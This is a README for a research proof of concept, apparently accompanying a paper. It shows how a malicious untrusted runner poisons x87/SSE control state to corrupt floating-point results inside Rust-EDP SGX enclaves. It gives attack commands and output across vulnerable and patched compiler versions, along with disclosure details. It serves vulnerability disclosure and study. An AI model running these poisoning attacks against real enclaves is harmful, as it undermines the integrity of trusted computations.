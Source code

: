 # Proof-of-concept Rust-EDP exploitation with malicious runner

[![build status](https://travis-matrix-badges.herokuapp.com/repos/fritzalder/faulty-point-unit/branches/master/8)](https://travis-ci.org/github/fritzalder/faulty-point-unit)

This directory includes a minimal PoC showcasing insufficient ABI sanitization
in Rust-EDP. The PoC shows that untrusted code controls x87 and SSE
configuration registers on enclave entry, which got fixed after our disclosure
in newer Rust-EDP versions. We furthermore show that the initial fix did not
suffice and attackers could still override the expected result of an exemplary
x87 FPU computation with unexpected NaN outcomes. This too got fixed after our
disclosure in newest Rust-EDP versions.

## Building and running

The untrusted runner is included in a fork of the rust-sgx repo, while the
trusted enclave runtime is part of the Rust compiler. Instructions below also
include how to easily switch between vulnerable and patched compiler versions.

### Install vulnerable Rust-EDP

#### 1. Install Rust dependencies

```bash
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
$ source $HOME/.cargo/env
```

#### 2. Switch to vulnerable Rust compiler version

```bash
$ rustup default nightly-2020-02-01
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
$ rustc --version
rustc 1.42.0-nightly (cd1ef390e 2020-01-31)
```

#### 3. Install malicious Rust-EDP runner

```bash
$ cd rust-sgx-fpu/
$ cargo install --locked --path ./fortanix-sgx-tools fortanix-sgx-tools
$ cargo install --locked --path ./sgxs-tools sgxs-tools
$ echo >> ~/.cargo/config -e '[target.x86_64-fortanix-unknown-sgx]\nrunner = "ftxsgx-runner-cargo"'
```

#### 4. Test Rust-EDP installation (only on SGX hardware)

```bash
$ sgx-detect           # Check your SGX harware setup
$ cd ../hello-world/   # Run the test enclave without poisoning
$ cargo run --target x86_64-fortanix-unknown-sgx
   Compiling cc v1.0.54
   Compiling hello-world v0.1.0 (/home/jo/Documents/faulty-point-unit/02_table2_affected_runtimes/rust-edp/hello-world)
    Finished dev [unoptimized + debuginfo] target(s) in 1.45s
     Running `ftxsgx-runner-cargo target/x86_64-fortanix-unknown-sgx/debug/hello-world`
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000
```

#### 5. Run proof-of-concept attack

##### 5.1 Vulnerable Rust-EDP version (poison SSE MXCSR + x87 control word + x87 tag)

```bash
$ rustup default nightly-2020-02-01
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
$ rustc --version
rustc 1.42.0-nightly (cd1ef390e 2020-01-31)

# First run the test enclave without poisoning
$ cargo clean
$ cargo run --target x86_64-fortanix-unknown-sgx

# Now run with the malicious FPU poisoning runner (x87 single precision, round down) --> vulnerable
$ fpu-runner --fpu=1087 ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] poisoning FPUCW with 0x43f
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
FPUCW   = 0x47f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135671854019165039062500000000000000000000000000000000000000

# Now run with the x87 FPU in MMX mode --> vulnerable
$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
```

##### 5.2 Initially patched Rust-EDP version (poison x87 tag)

```bash
$ rustup default nightly-2020-06-09
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-06-09
$ rustc --version
rustc 1.46.0-nightly (fd4b177aa 2020-06-08)

# First run the test enclave without poisoning
$ cargo clean
$ cargo run --target x86_64-fortanix-unknown-sgx

# Now run with the malicious FPU poisoning runner (x87 single precision, round down) --> patched
$ fpu-runner --fpu=1087 ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] poisoning FPUCW with 0x43f
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

# Now run with the x87 FPU in MMX mode --> vulnerable
$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
```

##### 5.3 Latest fully patched Rust-EDP version

```bash
$ rustup default nightly-2020-07-05
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-07-05
$ rustc --version
rustc 1.46.0-nightly (0cd7ff7dd 2020-07-04)

# First run the test enclave without poisoning
$ cargo clean
$ cargo run --target x86_64-fortanix-unknown-sgx

# Now run with the malicious FPU poisoning runner (x87 single precision, round down) --> patched
$ fpu-runner --fpu=1087 ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] poisoning FPUCW with 0x43f
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

# Now run with the x87 FPU in MMX mode --> patched
$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000
```

## Disclosure and mitigation

We disclosed the core FPU sanitization issue in December 2019 which was addressed with a `ldmxcsr/csw` instruction [<https://github.com/rust-lang/rust/pull/69040>].

After further investigation, we found that this left the attacker open to perform the MMX attack as described in the paper. We also disclosed this issue and it is patched in the Rust compiler in version 1.46.0. The mitigation can be followed via this Pull Request [<https://github.com/rust-lang/rust/pull/73471>].
